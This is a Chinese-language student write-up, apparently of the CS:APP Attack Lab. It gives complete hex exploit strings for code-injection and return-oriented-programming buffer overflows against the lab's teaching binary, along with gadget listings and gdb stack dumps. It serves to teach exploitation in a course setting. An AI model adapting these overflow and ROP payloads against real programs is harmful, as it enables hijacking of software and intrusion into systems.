



## 概述

学习两种代码攻击

_image/image-20240506175616316.png)

## part1  CI

#### level 1

attack.pdf实验要求：your exploit string will redirect the program to execute an existing procedure  

实验要求test函数跳到touch1的地址起点 

_image/image-20240506185552628.png)

test调用getbuf

_image/image-20240506185610853.png)

_image/image-20240506185627087.png)

查看getbuf()函数  其分配的栈大小为0x28  将其填满，再溢出8字节后修改了返回地址 将其设置为touch1的地址即可

答案如下：

```
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00    
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00  /* 00000000004017c0 touch1地址 */
```

修改后的栈区和返回地址如下：

```
(gdb) x/6gx $rsp
0x5561dc78:     0x0000000000000000      0x0000000000000000
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x00000000004017c0
```

==注意到注入代码（即输入的字符串）是从栈顶（低地址）开始写入的；**返回地址修改时，要注意将地址反着填写**==

#### level2

```c
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
 	}
	 exit(0);
 }
```

要求执行到```printf("Touch2!: You called touch2(0x%.8x)\n", val);```

本题还是利用gets读取溢出 从而修改栈中返回地址 将该地址指向注入代码（0x5561dc78） 

在注入代码中实现修改变量val（将cookie赋给rdi即可）  并通过ret继续操控跳转方向（push ret)  (ret 是将栈顶值作为返回地址)

==先写.s文件，汇编后生成.o文件，再反汇编生成.d文件，.d文件中有我们需要的指令代码==

答案如下：  

```
48 c7 c7 fa 97 b9 59 	    /* mov    $0x59b997fa,%rdi  (attack code,adr:5561dc78) */ 
68 ec 17 40 00       	    /* pushq  $0x4017ec  */ 
c3                   	    /* retq           */ 
00 00 00                    /* 16bytes */ 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00                                  
78 dc 61 55 00 00 00 00     /* modify getbuf return adr ->5561dc78 */ 
```

修改后的栈区和返回地址如下：

```
(gdb) x/6gx $rsp
0x5561dc78:     0x6859b997fac7c748      0x000000c3004017ec
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x000000005561dc78
(gdb) x/bx 0x5561dc78
0x5561dc78:     0x48
0x5561dc79:     0xc7
0x5561dc7a:     0xc7
0x5561dc7b:     0xfa
0x5561dc7c:     0x97
0x5561dc7d:     0xb9
```

==**注意到48 c7 c7 fa...是从低地址字节到高地址存放的，说明程序执行时，取指令是从低地址到高地址读取的。**==

#### level 3

```
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */
6 	char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 	vlevel = 3; /* Part of validation protocol */
14 	if (hexmatch(cookie, sval)) {
15 		printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 		validate(3);
17 	} else {
18 		printf("Misfire: You called touch3(\"%s\")\n", sval);
19 		fail(3);
20 	}
21 	exit(0);
22 }
```

要求执行到```printf("Touch3!: You called touch3(\"%s\")\n", sval);```

那么，需要跳转到touch3，并输入合适的sval变量。

注意到需要hexmatch返回1，则需要hexmatch中strncmp返回0，即变量sval与s相等（sval和s均是字符串指针）

_image/image-20240506221205325.png)

hexmatch中为变量cbuf开辟了128字节的栈区(0xff80=-128)，cbuf指向栈顶；指针s指向栈顶后100个字节中的随机某一个，并通过sprintf函数从该位置存储cookie值。（cookie变成16进制，并作为字符串传递，即把“59b997fa”写入s指向地址开始的栈区）

综上，为了解决该题，我们需要找个位置存储cookie字符串，并把sval指向我们自己写的cookie字符串。

##### 错误思路

考虑以下方法，若存到getbuf开辟的栈区（下图1位置），是不安全的，因为会被touch3和hexmatch函数给覆盖修改

若存到hexmatch函数的栈区之后（下图2位置），也不安全（经过验证，hexmatch执行完sprintf后，我们通过注入代码保存的cookie就消失了）。

_image/image-20240506230212642.png)

##### 正确思路

可以考虑存到test函数废弃的栈区(图中3位置)。

touch3的参数与cookie比较  要保证touch3参数不能被hexmatch覆盖

_image/image-20240510143910361.png)

```
cookie 0x59b997fa   
其ascii 35 39 62 39 39 37 66 61  "59b997fa"  存到$0x5561dca8


0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa   (touch3)
   c:	c3                   	retq   


```

```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00               	
00 00 00 00 00 00 00 00      
00 00 00 00 00 00 00 00                                 
78 dc 61 55 00 00 00 00     /* modify getbuf return adr ->5561dc78 */
35 39 62 39 39 37 66 61    /* cookie放入test栈区 */

```

查看一下栈区 其中0x5561dca用于存放cookie字符串

```
(gdb) x/7gx $rsp
0x5561dc78:     0x685561dca8c7c748      0x000000c3004018fa
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x000000005561dc78
0x5561dca8:     0x6166373939623935
```

## part2 Return-Oriented Programming  

使用了栈随机化和栈不可执行 用于保护程序 

要求利用farm.c生成汇编代码，利用其中多个ret结尾的代码段（称之为gadget），完成与part1的level2和3相同的攻击

#### level2

栈溢出攻击时，需要返回地址指向我们的攻击代码，栈随机化后，攻击代码的位置就不确定了，因此用栈溢出来攻击就失效了。

而程序代码的地址没有随机化，可以利用程序汇编代码的切片进行攻击。

本题提示：**两个gadget即可完成攻击**；只需要从functions between start_farm and mid_farm之中找。

由于farm中没有我们要的cookie或者是touch2的地址，cookie和touch2地址肯定是通过栈区即pop指令进行传递。

逻辑如下：在栈区中只存放返回地址和一些参数，利用gadget实现参数的取用，并ret跳转到下一个gadget或者是其他函数。

==这也是为什么叫做ROP，即利用return和栈区写入地址引导gadget。==



第一步是pop，从栈区取cookie到寄存器，第二部是movq，进行参数传递，传到rdi。

_image/image-20240510214408829.png)


在farm中，先找58-5f，并且要求其后面只有0x90(nop)或者0xc3(ret)。  只有一个58 90 c3满足要求 ，即 pop %rax

然后，肯定是找movq %rax,%rdi 即48 89 c7 c3 以及48 89 c7 90 c3

故答案为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00  /* gadget1 */
fa 97 b9 59 00 00 00 00   /* cookie=0x59b997fa */
a2 19 40 00 00 00 00 00  /* gadget2 */
ec 17 40 00 00 00 00 00  /* touch2=0x4017ec */
```

farm参考如下：

```
0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax             #-<<gadget2  0x4019a2
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax                           #-<<gadget1  0x4019ab
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)                 #也可作为gadget2
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00       	mov    $0x1,%eax
  4019d5:	c3                   	retq 
```

#### level3

要求：用ROP实现part1的level3

提示：The official solution requires eight gadgets 。（指的是要用到下面这个函数，farm中的第八个）

```

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

我们只能在栈中存储cookie，但不知道栈的位置，只能通过rsp寄存器读取。查表知道该指令只有48 89 e0到48 89 e7；在farm中可以搜到如下函数符合要求：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq 
```

```48 89 e0 c3   mov %rsp，%rax```

而add_xy是%rdi和%rsi相加给%rax。

##### 错误答案

执行完getbuf之后rsi的值为0x31=49。



因此，执行逻辑应该是



```
mov %rsp,%rax       #gadget1             #farm中地址 0x401a06
ret 
mov %rax,%rdi        #gadget2              #0x4019c5
ret
lea    (%rdi,%rsi,1),%rax   #gadget3        #0x4019d6
ret
mov %rax,%rdi     #gadget4                  #0x4019c5
ret 
```

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00        /* gadget1 */
c5 19 40 00 00 00 00 00        /* gadget2 */
d6 19 40 00 00 00 00 00        /* gadget3 */
c5 19 40 00 00 00 00 00        /* gadget4 */
fa 18 40 00 00 00 00 00        /* touch3 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00                               /* 偏移0x31=49 */ 
35 39 62 39 39 37 66 61        /* cookie */
```

gdb调试时发现有如下错误：Program received signal SIGSEGV, Segmentation fault.

使用上述方法在执行到touch3时，sval指向是没问题的，进入hexmatch后，在执行sprintf函数时会报错。

猜测可能是因为：64位的CPU每个时刻周期可以读取8个字节，根据内存对齐，（字符串数组名是一个指针），指针指向的栈中地址应该是8的倍数？即上述偏移0x31不满足要求。网上的答案都是0x48作为偏移。

教材p189页：

==许多计算机系统对基本数据类型的合法地址做了一些限制，要求某种类型对象所在的地址必须是某个值K的倍数，K的具体如下图所示。==

|  K   |       类型        |
| :--: | :---------------: |
|  1   |       char        |
|  2   |       short       |
|  4   |    int, float     |
|  8   | long,double,char* |

##### 正确答案

==构造一个偏移量    需要为8的倍数==

```
mov %rsp,%rax   #gadget1   48 89 e0 c3          #farm中地址 0x401a06 401aad （多个
ret
mov %rax,%rdi       #gadget2  48 89 c7 90 c3            #0x4019c5 0x4019a2 不唯一
ret 

/* -------------------构造偏移量 放入rsi中-------------------- */
popq %rax             # gadget3  58 90 c3  #只查到了pop rax 且不唯一  #0x4019ab 0x4019cc        (1)
ret
movl  %eax,%edx           #没有48 89 cx movq %rax,%xxx(非rdi)  考虑movl %eax,%xxx(非edi)  89 cx   有一个89 c2 90 c3 #在0x4019dd  (2)
ret
mov %edx,%ecx          #89 d1  08 db c3    在#0x401a69   其中08 db不改变寄存器   或者0x401a70 401a34  (4)
ret
movl %ecx,%esi       #89 c6/ce-f6/fe  有一个89 ce 90 90 c3  在0x401a13    (3)
ret 
/* -----------------------构造完毕------------------------------- */
lea    (%rdi,%rsi,1),%rax   #gadget7        #0x4019d6
ret
mov %rax,%rdi     #gadget8                 #0x4019c5
ret 
```

该问题解决时 先查找（1），即符合条件的pop，

然后查找（2），看rax能赋给何处，

然后查找（4），看谁可以赋给rsi，

然后查找（3），找到衔接 

_image/image-20240511132105962.png)

答案为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00        /* gadget1地址 多个 */
c5 19 40 00 00 00 00 00        /* gadget2地址 多个 */
ab 19 40 00 00 00 00 00      /* gadget3地址 */
48 00 00 00 00 00 00 00      /* gadget3要 pop的偏移量 */
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00      /* 5 */
13 1a 40 00 00 00 00 00     
d6 19 40 00 00 00 00 00        /* gadget7 */
a2 19 40 00 00 00 00 00        /* gadget8 */
fa 18 40 00 00 00 00 00        /* touch3 */
35 39 62 39 39 37 66 61        /*   偏移0x48=72 cookie */
```

==注意 答案格式中 /* comment */必须之间有俩空格隔开==

## 总结

该实验主要学习了CI（代码注入）和ROP（程序引导编程）这两种攻击手段。

其共同特点是利用栈溢出进行攻击。攻击是让程序不按照原逻辑进行执行，通过修改参数和跳转方向，改变执行结果。

CI是通过栈溢出修改返回地址，使返回地址指向攻击代码，由于攻击代码写在了栈区，因此需要知道攻击代码在栈区的地址，这就使得该攻击手段可以被栈随机化抵御。

而ROP则是利用所谓gadget，gadget是程序代码中以ret结尾的代码段，ret之前是诸如mov，pop等汇编语句，通过栈区溢出引导程序跳转到gadget，以实现攻击。

